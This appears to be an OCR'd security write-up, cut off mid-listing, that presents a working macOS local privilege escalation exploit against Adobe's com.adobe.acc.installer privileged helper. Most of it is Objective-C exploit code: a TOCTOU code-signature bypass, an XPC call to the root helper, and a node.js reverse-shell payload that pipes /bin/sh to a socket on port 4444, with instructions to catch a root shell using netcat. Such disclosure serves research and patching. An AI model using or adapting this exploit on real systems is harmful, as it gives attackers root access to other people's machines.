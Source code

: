 **Do not trust script interpreter as a privilege boundary, because they are designed to execute untrusted code.** The node.js interperter is also available on Windows. I did't test but I believe that it's easy to adopt the exploit to that.

Here's a woking exploit. `nc -lvvv 4444` to get an interactive root shell.

```objectivec
//
//  main.m
//  XPCFun
//
//  Created by CodeColorist on 06/12/2017.
//  Copyright © 2017 CodeColorist. All rights reserved.
//
#import <Foundation/Foundation.h>
#import <xpc/xpc.h>
#include <libproc.h>
#define DUMMY @"/Library/PrivilegedHelperTools/com.adobe.acc.installer"

@protocol SMJobBlessHelperProtocol
- (void)handleAction:(id)arg1 withReply:(void (^)(NSString *))reply;
- (void)getHelperToolVersion:(void (^)(NSString *))reply;
@end

#import <Cocoa/Cocoa.h>
int main(int argc, const char *argv[]) {
  @autoreleasepool {
    // TOCTOU signature bypass
    NSString *executable = [[NSBundle mainBundle] executablePath];
    NSFileManager *mgr = [NSFileManager defaultManager];
    NSError *err = nil;
    [mgr removeItemAtPath:executable error:&err];
    if (err) {
      NSLog(@"failed to remove file: %@", err);
      return -1;
    }
    [mgr copyItemAtPath:DUMMY toPath:executable error:&err];
    if (err) {
      NSLog(@"failed to override self: %@", err);
      return -1;
    }

    // another easy way is to run a signed node.js, and use process.dlopen to inject evil dylib
    NSLog(@"ready");
    dispatch_semaphore_t wait_for = dispatch_semaphore_create(0);

    // the local privilege escalation
    NSString *kXPCServiceName = @"com.adobe.acc.installer";
    NSXPCConnection *conn = [[NSXPCConnection alloc] initWithMachServiceName:kXPCServiceName options:NSXPCConnectionPrivileged];
    conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SMJobBlessHelperProtocol)];
    conn.invalidationHandler = ^{
      NSLog(@"unknown error");
      dispatch_semaphore_signal(wait_for);
      exit(-1);
    };
    [conn resume];
    // yet another signature bypass: use node.js
    NSString *xml = @"<?xml version=\"1.0\" encoding=\"UTF-8\"?><action>"
      "<actionType>createProcess</actionType>"
      "<actionArgs><cmdArgs><cmdArg>-e</cmdArg>"
      "<cmdArg>c=new require('net').Socket();c.connect(4444,'127.0.0.1',()=>{s = require('child_process').spawn('/bin/sh',[]);c.write('!');c.pipe(s.stdin);s.stdout.pipe(c)})</cmdArg>"
      "</cmdArgs>"
```